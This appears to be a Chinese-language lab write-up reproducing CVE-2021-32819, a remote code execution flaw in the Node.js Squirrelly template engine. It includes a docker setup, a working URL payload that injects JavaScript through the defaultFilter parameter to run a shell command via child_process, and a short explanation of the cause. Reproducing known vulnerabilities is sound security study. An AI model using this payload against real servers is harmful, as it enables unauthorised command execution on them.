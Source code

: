 # Nodejs squirrelly模版引擎RCE（CVE-2021-32819）

## 影响版本

squirrelly <= 8.0.8

## 环境搭建

```
docker-compose up -d
```

## 复现

```
/?Express=aaaa&autoEscape=&defaultFilter=e%27);var+require=global.require+%7C%7C+global.process.mainModule.constructor._load;+require(%27child_process%27).exec(%27touch+/tmp/1111%27);//
```

![1.png](1.png)

P.S. 发送payload后，服务器会一直未响应直到超时，但是命令已经成功执行

![2.png](2.png)

## 漏洞简析

![3.png](3.png)

env.defaultFilter的值可以被用户传入的参数覆盖，从而造成js代码注入，最终导致命令执行
